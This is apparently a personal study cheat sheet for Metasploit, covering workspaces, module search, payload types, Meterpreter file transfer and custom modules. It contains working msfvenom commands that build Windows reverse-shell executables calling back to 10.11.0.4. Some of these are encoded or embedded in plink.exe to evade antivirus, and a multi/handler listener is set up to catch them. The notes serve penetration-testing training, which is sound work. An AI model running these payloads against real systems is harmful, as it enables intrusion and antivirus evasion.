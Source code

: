 # MSF 

# WORKSPACES
# Create workspace
workspace -a

# Call workspaces
workspace

# Switch to workspace
workspace spaceName

## basics

//search
msf-pro > search platform:Windows
msf-pro > search type:exploit
msf-pro > search author:hd
msf-pro > search app:client
msf-pro > search name:ms08-067
//serach for contains http
grep http search type:exploit Apache


//Scanning dirs of webpages
auxiliary/scanner/http/dir_scanner

# options in module use options  to set for instance lhost, ports etc. to bypass firewalls
`options`

# payloads
in module type `show payloads` to show payloads

## Stage vs non staged payloads 

Overall there are non-staged  (pattern: linux/x86/shell_bind_ipv6_tcp) and staged (linux/x86/meterpreter/reverse_ipv6_tcp) on msf. stage will be done with a couple of smaller payloads

* settings different payload because the stage payload we provided might fail: `set payload linux/ => hit double tab`

see image ime/stagedVsNonStagedPayloads.png

# info
seach for a module and then for instance type
`info 2` to get information about the 3rd module

# check before exploit
run the `check` command before starting and exploit

# Meterpreter Payloads
Meterpreter 712 is a multi-function payload that can be dynamically extended at run-time. In practice, this means that the Meterpreter shell provides more features and functionality than a regular command shell, offering capabilities such as file transfer, keylogging, and various other methods of interacting with the victim machine.

* in module type: `search meterpreter type:payload`
* use `help` command to get information about meterperter commands
* upload files `upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\Offsec`
* download file `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`
* Can then also switch to the native shell via `shell` and then return to meterpreter by `exit`

# Executable Payloads
The Metasploit Framework payloads can also be exported into various file types and formats, such as ASP, VBScript, Jar, War, Windows DLL and EXE, and more.

let’s use the msfvenom utility to generate a raw Windows PE reverse shell executable. We’ll use the `-p` flag to set the payload, set LHOST and LPORT to assign the listening host and port, `-f` to set the output format ( exe in this case), and `-o` to specify the output file name
* `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -o shell_reverse.exe` and check file `file shell_reverse.exe`
* `-e` to encode those files to avoid AntiVirusDetection: `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe`
* Another useful feature of Metasploit is the ability to inject a payload into an existing PE file, which may further reduce the chances of AV detection by: `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe`

# Metasploit Exploit Multi Handler (if f.e.: we do not want to user NC)
used Netcat to catch standard reverse shells, such as those generated by the windows/shell_reverse_tcp payload, but might not work for some machines.
* we should use the framework `multi/handler` module, which works for all single and multi-stage payloads
 `use multi/handler` =>  `set payload windows/meterpreter/reverse_https` => `exploit`

# Adding custom modules

https://fmash16.github.io/content/writeups/hackthebox/htb-Passage.html

1) with searchsploit you can download file (see reconainssance)
2) save file in for instance:  /home/kali/.msf4/modules/exploits/cgi/webapps/ => having [exploits] or [auxilliary] is important
3) in msf reload modules by reload_all
4) custom module should appear

=> logs can be checked under: /home/kali/.msf4/logs/
![stagedVsNonStagedPayload](img/stagedVsNonStagedPayload.png)